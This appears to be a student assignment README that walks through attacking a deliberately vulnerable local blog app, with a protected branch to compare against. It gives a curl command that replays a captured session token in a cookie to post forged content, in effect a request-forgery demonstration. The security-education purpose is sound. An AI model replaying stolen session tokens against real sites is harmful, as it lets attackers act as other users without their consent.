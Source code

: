 
Note:
Before the attack, please revert to the commit 
```
38fe15a38669c49fca010a61ac98212a476f1a71
```
(the commit with the message "vulnerable site").
Any commit after that is the protected website.

If this is not working, you can clone the branches [Assignment4-protected](https://github.com/TzviGreenfeld/hw1-blog/tree/Assignment4-protected) and [Assignment4-vulnerable](https://github.com/TzviGreenfeld/hw1-blog/tree/Assignment4-vulnerable) and see the differences between them.

1. Sign up on our website.
2. Login using the user account you just created.
3. Save the token you received in the cookies from the response after logging in.
4. Open Git Bash.
5. In the following command, replace \*token\* with the actual token obtained in step 3, then run the command in Git Bash:
```
   curl --cookie 'cookie={"token":"*token*"}' -X POST -H "Content-Type: application/json"  http://localhost:3000/api/post -d '{"title":"Ive Been Hacked!","content":"This post has been sent from another browser!","email":"hacked.com","id":"","link":""}'
```
7. The "I've Been Hacked" post should appear on your drafts page.
